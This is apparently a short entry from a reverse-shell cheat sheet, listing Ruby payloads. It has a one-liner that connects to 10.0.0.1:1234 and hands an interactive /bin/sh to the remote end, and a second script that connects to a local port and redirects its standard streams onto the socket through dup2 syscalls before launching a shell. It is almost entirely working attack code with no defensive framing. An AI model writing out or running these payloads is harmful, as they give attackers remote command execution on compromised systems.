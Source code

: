 # Ruby
``ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
``
#!/usr/bin/env ruby
# syscall 33 = dup2 on 64-bit Linux
# syscall 63 = dup2 on 32-bit Linux
# test with nc -lvp 1337 

require 'socket'

s = Socket.new 2,1
s.connect Socket.sockaddr_in 1337, '127.0.0.1'

[0,1,2].each { |fd| syscall 33, s.fileno, fd }
exec '/bin/sh -i'
